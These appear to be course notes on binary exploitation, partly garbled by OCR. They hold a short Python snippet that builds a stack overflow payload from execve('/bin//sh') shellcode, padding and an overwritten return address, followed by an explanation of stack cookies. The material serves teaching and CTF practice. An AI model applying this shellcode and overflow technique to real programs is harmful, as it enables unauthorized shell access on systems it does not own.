 |Locals:  <br>41, 41, 41, 41, 41, 41, 41, 41  <br><shc end>, 41, 41, 41, 41, 41  <br><third 8 bytes of shc>  <br><second 8 bytes of shc>  <br><first 8 bytes of shc>|
```c
rsp = 0x7fffffffdbd0
shc = \
‘6A6848B82F62696E’ \
‘2F2F2F73504889E7’ \
‘31F66A3B58990F05’.decode(‘hex’)
exploit = shc.ljust(0x40, ‘A’)
exploit+= p64(rsp)
```

# Mitigations
## Stack Cookies
If we put a special, secret, value on the stack, we can check it before we return
###### Preamble:
```
mov rax, qword fs:[0x28]
mov qword [rbp-0x8], rax
```
###### Before Return:
```
mov rdx, qword [rbp-0x8]
xor rdx, qword fs:[0x28]
je 0x40079f
call _stack_chk_fail
```
Cookies
* Cookies are generated at program startup
* 8 bytes on 64-bit
* The first byte (the one placed closest to your stack locals) is always a `NULL` byte
	* This helps stop string reads from leaking the cookie
* We will learn  how to get around these next week

# Writeups
[[Stack Buffer Overflow]]
[[Introduction to Pwning]]
[[Registers]]

# Challenges
[[Boffin]]
[[Lockbox]]